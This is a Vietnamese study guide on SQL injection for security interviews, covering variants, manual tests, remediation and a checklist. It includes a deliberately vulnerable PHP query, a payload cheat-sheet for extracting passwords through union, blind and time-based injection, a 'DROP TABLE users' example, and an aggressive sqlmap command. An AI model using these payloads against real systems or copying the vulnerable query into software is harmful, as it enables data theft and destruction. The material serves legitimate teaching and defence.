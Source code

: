 # 1) Định nghĩa ngắn

**SQL Injection (SQLi)** là lỗi do ứng dụng chèn dữ liệu không đáng tin cậy trực tiếp vào query, cho phép attacker thay đổi cấu trúc truy vấn và đọc/sửa/xóa dữ liệu, hoặc thậm chí chạy lệnh RCE.


# 2) Các dạng chính (với ý tưởng cơ bản)

1. **Error-based SQLi**
   * Kích thích DB trả lỗi chứa dữ liệu để rút thông tin.

2. **Union-based SQLi**
   * Dùng `UNION SELECT` để nối kết quả do attacker kiểm soát vào kết quả hợp lệ.

3. **Boolean-based (Blind) SQLi**
   * Khi attacker chèn biểu thức trả về TRUE/FALSE vào tham số (ví dụ `id=1 AND 1=1` vs `id=1 AND 1=2`) và suy ra dữ liệu từ sự khác biệt trong phản hồi. Khắc phục bằng prepared statements, whitelist input và giảm quyền DB.

4. **Time-based (Blind) SQLi**
   * Kỹ thuật khiến DB ngủ (ví dụ SLEEP(5) hoặc pg_sleep(5)) khi một điều kiện đúng, rồi đo thời gian phản hồi để dò dữ liệu; khắc phục bằng prepared statements, validate input và giới hạn/quyền DB.

5. **Stacked queries**
   * Chèn nhiều câu SQL trong một request (ví dụ ; DROP TABLE users;) có thể gây xóa dữ liệu hoặc RCE; ngăn bằng prepared statements, tắt multi-statement client option và giới hạn quyền DB.

6. **Out-of-band (OOB) SQLi**
   * Kỹ thuật khiến DB gửi request ra ngoài (DNS/HTTP) để exfiltrate dữ liệu — phòng ngừa bằng egress filtering, vô hiệu hoá hàm mạng trên DB, least-privilege và chuẩn hoá/parametrize queries.

7. **Second-order SQLi**
   * Xảy ra khi payload độc hại được lưu trước rồi kích hoạt sau khi app dùng lại dữ liệu ấy trong một câu SQL không an toàn, gây injection.

# 3) Cách nhận biết / test nhanh (manual)

* Thử ký tự đặc biệt: `' " -- ; /*` xem app phản ứng (lỗi, khác nội dung).
* Thử điều kiện boolean trong parameter: `id=1 AND 1=1` vs `id=1 AND 1=2` → quan sát khác biệt.
* Thử `UNION SELECT` (bắt đầu từ 1 cột → tăng cột: `UNION SELECT NULL` ... tìm số cột).
* Kiểm tra phản hồi thời gian: thêm payload gây delay để phát hiện time-based blind.
* Tìm lỗi DB (stack traces) trong response.
* Sử dụng proxy (Burp) để thử payloads và xem responses chi tiết.


# 4) Ví dụ minh hoạ (an toàn, để hiểu cơ chế)

Giả sử ứng dụng thực hiện (vulnerable) trong PHP:

```sql
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];
```

* Nếu attacker gửi `?id=1 OR 1=1` → câu SQL thành:
  `SELECT * FROM users WHERE id = 1 OR 1=1` => trả về toàn bộ users.

Union-based example (để trích cột):

* `?id=1 UNION SELECT username, password FROM users --`
  (Phải đúng số cột & kiểu dữ liệu.)

Boolean blind example:

* `?id=1 AND (SELECT SUBSTRING(password,1,1) FROM users WHERE id=1) = 'a'`
  → nếu page khác khi điều kiện đúng → suy ra ký tự.

Time-based example (MySQL):

* `?id=1 AND IF(SUBSTR((SELECT password FROM users WHERE id=1),1,1)='a', SLEEP(5), 0)`
  → nếu response chậm 5s → ký tự là 'a'.


# 5) Một số payload tham khảo (cheat-sheet, dùng trong lab)

* Basic test: `' OR '1'='1`
* Error-based probe: `' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT user),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- `
* Union probe: `1 UNION SELECT NULL,NULL,... -- ` (tăng số NULL theo số cột)
* Boolean blind: `1 AND SUBSTRING((SELECT database()),1,1)='a'`
* Time-based (MySQL): `1 AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)`
* MSSQL sleep: `; IF (SUBSTRING((SELECT TOP 1 password FROM users),1,1)='a') WAITFOR DELAY '00:00:05'--`

> **Ghi chú:** payloads phức tạp dễ bị block; dùng Burp Intruder hoặc sqlmap để tự động hóa trong lab.


# 6) Dò tự động — công cụ tiêu biểu

* **sqlmap**: tự động hóa discovery + exploitation. Ví dụ (lab/target được phép):

  ```
  sqlmap -u "http://target/vuln.php?id=1" --risk=3 --level=5 --dbs
  ```
* **Burp Suite** (Intruder/Repeater) + wordlists/custom payloads.
* **Nikto**, **Nmap scripts** cho reconnaissance.


# 7) Phòng ngừa (best practices — phải nắm cho phỏng vấn)

1. **Prepared statements / parameterized queries** — luôn dùng (PDO, prepared statement, ORM).
2. **Use of ORMs** with parameter binding (nhưng vẫn cần kiểm tra chỗ raw SQL).
3. **Input validation & allowlist** — validate type/length/format; nhưng không dùng validation thay cho parameterized queries.
4. **Least privilege DB user** — web app chỉ có quyền cần thiết (không dùng root).
5. **Escaping / encoding** chỉ như phương án phụ, không thay cho parameterized queries.
6. **Stored procedures** cũng phải dùng parameter binding; tránh concat SQL trong SP.
7. **WAF / IPS** là lớp phòng thủ bổ sung (không thay cho code đúng).
8. **Error handling**: hide DB error details (no stack traces to users).
9. **Logging & monitoring**: log suspicious patterns, rate-limit, alert.
10. **Dependency & framework patching**: cập nhật driver/DB libraries.


# 8) Checklist kiểm thử/patch (quick)

*  Tìm mọi input có thể điều khiển truy vấn (params, headers, cookies, body).
*  Thử các loại payloads: error, union, boolean, time-based.
*  Kiểm tra multi-byte/encoding (UTF-8), bypass filters.
*  Kiểm tra stored/second-order injection (input lưu -> dùng sau).
*  Kiểm tra quyền DB: có thể đọc `information_schema`? có thể ghi/xóa?
*  Xác minh fix: replace vulnerable code bằng prepared statements + viết unit/integration tests.


# 9) Tài liệu/nguồn ôn (khuyến nghị)

* OWASP SQL Injection Prevention Cheat Sheet.
* PortSwigger Labs (Web Security Academy) — practice labs.
* sqlmap docs & Burp Suite Academy.
